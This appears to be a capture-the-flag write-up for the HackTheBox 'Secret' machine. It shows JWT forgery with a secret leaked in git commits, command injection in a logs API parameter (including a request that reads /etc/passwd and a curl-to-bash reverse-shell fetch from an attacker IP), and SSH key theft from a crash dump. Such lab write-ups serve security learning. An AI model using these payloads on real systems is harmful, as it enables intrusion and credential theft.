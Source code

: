 # Secret

![Secret.png](Secret/Secret.png)

### 10/30/2021

[https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)

[https://infosecwriteups.com/celestial-a-node-js-deserialization-hackthebox-walk-through-c71a4da14eaa](https://infosecwriteups.com/celestial-a-node-js-deserialization-hackthebox-walk-through-c71a4da14eaa)

Default Network mapper scan to discover open ports on host:

![Untitled](Secret/Untitled.png)

SSH service open port

Hyper text transfer protocol port

3000 HTTP Node JS middleware open port - Is a web framework that has minimal functionality of its own. Middleware can change information

![Untitled](Secret/Untitled%201.png)

Application without subdomains:

![Untitled](Secret/Untitled%202.png)

Initial page in the 3000 port:

![Untitled](Secret/Untitled%203.png)

Ok, we have an API, and a location to register user:

![Untitled](Secret/Untitled%204.png)

Testing request methods on API:

![Untitled](Secret/Untitled%205.png)

Directorys:

![Untitled](Secret/Untitled%206.png)

Reading commit logs to find something useful:

![Untitled](Secret/Untitled%207.png)

Okay in this way we got a different response by the server:

![Untitled](Secret/Untitled%208.png)

![Untitled](Secret/Untitled%209.png)

![Untitled](Secret/Untitled%2010.png)

Set the correct content type to you can achieve the register page:

![Untitled](Secret/Untitled%2011.png)

Ok, now we get a user account:

![Untitled](Secret/Untitled%2012.png)

In the login page it sends a JWT token:

![Untitled](Secret/Untitled%2013.png)

Ok i receive the response in the normal port 80, probably the API's are linked:

![Untitled](Secret/Untitled%2014.png)

When we put a null character the server returns a error:

![Untitled](Secret/Untitled%2015.png)

The process of get the admin account token was: 

Reading the commit log in the file folder, i found a secret token that is used to generate a web token:

![Untitled](Secret/Untitled%2016.png)

Reading the code and how it creates a JWT token, i know that the token is the id, username and email, and it is processed by JWT token. 

![Untitled](Secret/Untitled%2017.png)

So, i get myself token:

![Untitled](Secret/Untitled%2018.png)

paste in the JWT generator, set the signature and change the name and email to admin credentials:

![Untitled](Secret/Untitled%2019.png)

It works successfully:

![Untitled](Secret/Untitled%2020.png)

![Untitled](Secret/Untitled%2021.png)

Reading more about how the server treat with the log file, i found the code in the commits history:

It receive file from request and executes with exec function in node js:

![Untitled](Secret/Untitled%2022.png)

The request reply our LFI

![Untitled](Secret/Untitled%2023.png)

Searching more about how to explore exec function in Node i found a article in this link:

[https://auth0.com/blog/preventing-command-injection-attacks-in-node-js-apps/](https://auth0.com/blog/preventing-command-injection-attacks-in-node-js-apps/)

Basically to it works just pass a name of a file and close the command:

```python
index.js;ls
index.js;whoami
```

![Untitled](Secret/Untitled%2024.png)

```python
GET /api/logs?file=index.js;cat%20/etc/passwd HTTP/1.1
Host: 10.10.11.120
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 2
Content-type: text/html
auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTgwMzg4NjNiNjJhOTA0NTgzN2MxYWQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM1Nzk1ODM0fQ.d2XZObmsEN1yreKYy5HIV_w3OAJ9YggwvH14Ka1bek8
```

![Untitled](Secret/Untitled%2025.png)

```python
http://10.10.11.120/api/logs?file=index.js;curl+http%3a//10.10.14.81%3a8000/shell.bash|bash
```

Reading the Strace of a binary, we can look at that it reads a file:

![Untitled](Secret/Untitled%2026.png)

Db credentials:

![Untitled](Secret/Untitled%2027.png)

![Untitled](Secret/Untitled%2028.png)

The machine register logs because the prctl are enabled. 

![Untitled](Secret/Untitled%2029.png)

We can try read this with apport-unpack

```python
apport-unpack
```

We must have to run the program and then generate a crash

![Untitled](Secret/Untitled%2030.png)

Crash file generated:

![Untitled](Secret/Untitled%2031.png)

Unpacking and accessing the folder:

![Untitled](Secret/Untitled%2032.png)

Id_rsa key:

![Untitled](Secret/Untitled%2033.png)
